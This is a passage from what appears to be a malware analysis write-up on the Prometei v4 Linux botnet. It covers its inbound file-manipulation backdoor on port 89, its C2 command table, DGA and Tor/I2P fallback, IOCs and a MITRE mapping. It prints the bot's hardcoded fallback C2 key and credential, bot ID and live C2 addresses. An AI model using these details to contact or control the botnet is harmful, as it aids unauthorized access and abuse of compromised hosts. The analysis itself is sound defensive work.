So this isn't just a place to pull payloads from — anyone who can reach port 89 and pass the authorization check (the thing that returns `403 Forbidden` when it fails) can **delete, copy, and drop files** on the host remotely. File manipulation plus arbitrary download over a network-facing socket is, by any reasonable definition, a **backdoor**.

What makes it notable is that Prometei ends up with **two parallel control surfaces**. The exact same commands (`fdel`, `fcopy`, `wget`, `touch`, `sysinfo`, …) are also wired into the C2 dispatcher at `0x421eaf` — their strings carry cross-references to both functions. So the operator can drive the bot two ways:

- **Outbound**: the bot polls the C2 and pulls commands (works through NAT/firewalls)
- **Inbound**: someone connects directly to the bot's `0.0.0.0:89` and issues the same commands

The one capability I did *not* see exposed on the `:89` side is `_CMDv2_` (the `/bin/sh` shell execution) — that stays on the C2 channel. But `wget` + `fcopy` + `touch` on an open port is more than enough to stage and run whatever you want on the box.

## Cryptographic Primitives

I went looking for crypto in the binary by searching for known constants — magic numbers, initialization vectors, S-boxes. Here's what turned up.

### SHA-256

The standard SHA-256 initialization vector is sitting right there at `0x502580`:

```
H0-H7: 6a09e667 bb67ae85 3c6ef372 a54ff53a 510e527f 9b05688c 1f83d9ab 5be0cd19
```

The K round constants follow at `0x5025a0`. The implementation wraps it in an EVP-style vtable at `0x533ee0` — indirect calls for `init`, `update`, `finalize` — which is typical of glibc's internal crypto or a lightweight digest abstraction. I found it being used in three places:

- Called at `0x41aa6a` inside the C2 function as a **verification step**: it hashes incoming data and compares it against a hardcoded 32-byte hash at `0x537420`. If the check passes (return value = 1), the bot proceeds to contact the C2. The `auth=hash` in the URL is literal text — a protocol identifier, not a SHA-256 output
- The `sha256chk` command — probably integrity verification of itself or downloaded components
- A `sha256hash: %s` format string that logs the result

### Base64

Standard Base64 at `FUN_004128ea`, using the canonical alphabet at `0x537320`. This one shows up *everywhere* — I counted 20+ cross-references. It's used to:

- Decode the `enckey` from the JSON config at startup
- Encode and decode command payloads in C2 traffic
- Encode file contents for the `fgetcrypt` command (file exfiltration)

Basically, base64 is the workhorse of the entire protocol.

### Hardcoded Fallback Credentials

The function at `0x419d32` builds what initially looks like two separate key strings on the stack character by character — a classic anti-strings technique. But tracing the cross-references reveals they're actually **one continuous 172-character string**:

```
GtvRsdC7YqIEXKfsICVsKakP-03j9/VleLebEc2bTYGmdiXITbyxwz-PbOtEuMN2
2r9hwfdHVaojeeMh3gUpa/-FqTFAq/FrwpXySE3lq2z37X3Zmu4jVxSj7xtxLtP-
1/Mz/v-fHbhOj9axLYYg7UxUc9ySSyiIaKWC4S2pGRo_
```

The key to understanding their purpose is where they end up. The function checks if the global buffer at `0xbf4380` is empty — and `0xbf4380` is the exact same address where the JSON parser stores the `enckey`. If the buffer is already populated (from the JSON config), the stack-built string is skipped. If it's empty, the 172-character string is copied there as a **fallback enckey**.

At first glance, this string looks like it has a broken alphabet — it contains `/` (standard base64) mixed with `-` and `_` (url-safe). But tracing the C2 function revealed the explanation: a small converter at `0x41a14b` runs on the enckey before each request, replacing `+` → `-` and `=` → `_` while leaving `/` unchanged. This is a **custom URL-safe encoding** — `+` would be interpreted as a space in URL parameters, and `=` is the key/value delimiter, but `/` is safe in query values per RFC 3986.

The JSON enckey is stored in standard base64 and gets converted at request time. The fallback was stored **pre-converted** in this custom format. Reversing the substitution (`-` → `+`, `_` → `=`) on the fallback string produces valid standard base64 that decodes to exactly **128 bytes** — the same RSA-1024 block size as the JSON enckey. Both are the same type of credential.

The same function also initializes a 16-character fallback value (`hr9f244U7KMUIM5f` from `0x537400`) into another BSS buffer at `0x157e700`, following the same "only if empty" pattern.

This is a **resilience mechanism**: if the JSON config is corrupted or missing, the bot can still authenticate with the C2 using these hardcoded default credentials. Building them on the stack prevents simple `strings` extraction from revealing these backup keys.

### What I Didn't Find

I specifically searched for symmetric cipher constants and came up empty:

- **No AES S-box** — the standard substitution table (`0x63, 0x7c, 0x77, 0x7b...`) isn't anywhere in the binary
- **No RC4 or ChaCha constants** — though it's worth noting that RC4 doesn't use a lookup table, so its presence can't be ruled out purely by searching for constants

The clearnet C2 traffic is essentially **base64-encoded plaintext**, authenticated by the `enckey` and a SHA-256 hash. Tor and I2P provide actual transport encryption on their channels. There may be additional crypto I didn't identify — the `fgetcrypt` command name hints at some form of encryption for exfiltrated files, but I didn't reverse that handler in depth.

## Command Dispatch

The command dispatcher is located at `0x421eaf`. After receiving a response from the C2, the bot compares it against known command strings using `strcmp`-style checks:

| Command | Function |
|---------|----------|
| `start_mining` | Start the XMR cryptominer (`HashPowerProject` is the mining pool/project identifier) |
| `stop_mining` | Stop the cryptominer |
| `_CMDv2_;%d:` | Execute arbitrary shell commands via `/bin/sh` |
| `chkport` | Scan/check a TCP port |
| `xwget` / `chkxwget` | Download files / check if wget exists |
| `tcp_bind` | Start the inbound HTTP server (binds `0.0.0.0`, serves `/?c=getinfo`) |
| `tcp_stop` / `udp_stop` | Kill active connections |
| `set_cc1` | Change the C2 server address |
| `extip` | Get the external IP address |
| `updatev4` | Self-update to a new version |
| `sha256chk` | Integrity check |
| `nvsync` / `netsync` | Heartbeat / network sync (`nvsync` doubles as a process name — see masquerading above) |
| `walker` / `netwalker` | Network propagation (lateral movement) |
| `debug` | Enable debug mode (writes to `/tmp/debug.txt`) |

The mining component reads `/proc/cpuinfo` and `/proc/meminfo` to profile the host hardware and optimize hash rates.


*The command dispatcher at `0x421eaf`. The listing (left) shows `LEA RSI, "start_mining"` being loaded for comparison. The decompiler (right) shows the handler: on a `"touch"` check match, it sets `DAT_00bf4360 = 3000` (likely a mining parameter), then falls through to the hardcoded C2 URL `http://177.221.180.26/cgi-bin/p...` for reporting back.*

## Architecture Overview

```
                          OUTBOUND (bot asks for commands)
┌─────────────┐     HTTP GET (polling)      ┌──────────────┐
│             │ ──────────────────────────→ │              │
│    Bot      │    /cgi-bin/p.cgi?i=...     │   C2 Server  │
│  (victim)   │ ←────────────────────────── │   (master)   │
│             │     command response         │              │
└─────────────┘                              └──────────────┘
       │  ▲                                         │
       │  │ INBOUND backdoor on 0.0.0.0:89          │
       │  │ fdel / fcopy / wget / touch / sysinfo    │
       │  │ GET /?c=... → 200 OK / 403 / 404         │
       │  └──────────── other hosts / operator       │
       │                                            │
       │  Fallback if C2 is down:                   │
       │  1. DGA("xinchao"+date) → DNS resolve      │
       │  2. Extract domain from DNS response       │
       │  3. Try .com → .net → .org                 │
       │  4. Contact fallback C2                    │
       │                                            │
       ├── Tor (.onion) ────────────────────────────┤
       └── I2P (.b32.i2p) ─────────────────────────┘
```

## IOCs (Indicators of Compromise)

| Type | Value |
|------|-------|
| SHA256 | `698f7cd04ae3dae8c370f2a485240f27d3c01d494cea63953a9e580ff47097f9` |
| C2 IP | `177[.]221[.]180[.]26` |
| C2 Path | `/cgi-bin/p.cgi`, `/cgi-bin/prometei.cgi` |
| Tor C2 | `gb7ni5rgeexdcncj[.]onion` |
| I2P C2 | `mkhkjxgchtfgu7uhofxzgoawntfzrkdccymveektqgpxrpjb72oq[.]b32[.]i2p` |
| Bot ID | `D9bx8ZTFO1A9Q685` |
| Parent ID | `SUM84D30Y02V5RS5H` |
| DGA Seed | `xinchao` |
| HTTP server | binds `0.0.0.0`, default port `89` (set via `argv[2]`), endpoint `/?c=getinfo` |
| Bot version | `v4.44L_Unix64` (reported in the check-in beacon's `info:` header) |
| C2 Server stack | Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10, `charset=windows-1251` |
| Install Path | `/usr/sbin/uplugplay`, `/etc/uplugplay` |
| Bot Config | `/etc/CommId` |
| Process Names | `updatecheckerd`, `pdefenderd`, `nvsync`, `netwalker` |
| Fallback enckey | `GtvRsdC7YqIEXKfs...GRo_` (172 chars, custom URL-safe base64, 128 bytes decoded, stack-built at `0x419d32`) |
| Fallback credential | `hr9f244U7KMUIM5f` (from `0x537400`) |
| Debug File | `/tmp/debug.txt` |

> **Note:** The malware overwrites `/etc/resolv.conf` with public DNS resolvers (`8.8.8.8`, `1.1.1.1`, `114.114.114.114`). These are legitimate services and not IOCs — their presence in `resolv.conf` is only suspicious if the system wasn't configured to use them.

## MITRE ATT&CK Mapping

| Technique | ID | Evidence |
|-----------|-----|---------|
| Command and Scripting Interpreter: Unix Shell | T1059.004 | `_CMDv2_` executes commands via `/bin/sh` |
| Scheduled Task/Job: Cron | T1053.003 | Reads `crontab -l`, installs cron entry |
| Create or Modify System Process: Systemd Service | T1543.002 | Creates `.service` unit, runs `systemctl enable` |
| Masquerading: Match Legitimate Name or Location | T1036.005 | Process names (`updatecheckerd`, `nvsync`), install path `/usr/sbin/uplugplay` |
| Obfuscated Files or Information | T1027 | Hardcoded keys built on the stack to evade static string extraction |
| Ingress Tool Transfer | T1105 | `xwget` / `chkxwget` downloads files |
| Data Encoding: Standard Encoding | T1132.001 | Base64 encoding of C2 payloads and exfiltrated data |
| Application Layer Protocol: Web Protocols | T1071.001 | HTTP GET polling to `/cgi-bin/p.cgi` |
| Dynamic Resolution: Domain Generation Algorithms | T1568.002 | `"xinchao"` seed + time-based DGA |
| Fallback Channels | T1008 | Clearnet → DGA → Tor → I2P fallback chain |
| Multi-hop Proxy | T1090.003 | C2 communication routed through Tor and I2P overlay networks |
| Lateral Tool Transfer | T1570 | Inbound HTTP server on `0.0.0.0:89` serves payloads to other LAN hosts |
| Non-Standard Port | T1571 | HTTP server listens on port 89 by default |
| Resource Hijacking | T1496 | `start_mining` / `stop_mining`, XMR cryptomining |
| System Information Discovery | T1082 | Reads `/proc/cpuinfo`, `/proc/meminfo`, `dmidecode` |
| Network Service Discovery | T1046 | `chkport` command |

## Conclusion

Prometei v4 is a well-engineered botnet that combines multiple resilience mechanisms: multi-channel C2 (clearnet + Tor + I2P), a DGA with DNS-based indirection, process masquerading, and dual persistence (cron + systemd). Its primary purpose is cryptomining, but the `_CMDv2_` shell execution makes it a full-featured backdoor. On top of that, it runs its own HTTP server on `0.0.0.0:89` that accepts inbound file-manipulation commands (`fdel`, `fcopy`, `wget`, `touch`) — a second, network-facing backdoor in parallel with the C2 channel, and the engine behind its lateral movement.

The bulk of this analysis was done statically — no execution, no sandboxing. The C2 protocol was then validated by replaying the registration and polling sequence against the live server, confirming the request format, command cycle, and response behavior. The main challenge was working with a stripped, statically-linked binary where every libc function had to be identified manually by reading the assembly. Syscall numbers were the most reliable anchor points: if you see `mov eax, 39; syscall`, that's `getpid`, period.

### Limitations

This analysis covered the main execution flow, C2 communication protocol (including live validation of the full register → command → response → poll cycle), DGA mechanism, cryptographic primitives, the fallback credential mechanism, and the embedded HTTP server (bind, port, and endpoints confirmed). Areas not covered in depth include: the internal workings of the propagation module (`netwalker`), the mining configuration protocol, the full request-handling logic of the HTTP server beyond its routing, the `fgetcrypt` handler, and the exact content written to `/etc/hosts`. The command table was largely derived from string names and dispatcher cross-references — not all handlers were fully reversed. Where conclusions are unverified, I've noted them as such.

---

*Tools used: Ghidra, strings, readelf, objdump, file*
